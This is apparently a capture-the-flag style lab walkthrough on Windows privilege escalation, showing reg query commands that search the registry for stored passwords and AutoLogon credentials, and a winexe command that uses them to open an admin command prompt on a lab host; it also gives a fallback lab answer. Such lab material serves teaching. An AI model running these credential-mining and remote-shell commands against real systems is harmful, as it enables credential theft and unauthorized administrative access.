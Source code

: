 [Windows Local Privilege Escalation - Password Mining (Registry) - YouTube](https://www.youtube.com/watch?v=2fF4Xre-w2g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=10)


(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)

1. The registry can be searched for keys and values that contain the word "password":

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

2. If you want to save some time, query this specific key to find admin AutoLogon credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

3. On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

```
winexe -U 'admin%password' //10.10.181.132 cmd.exe
```
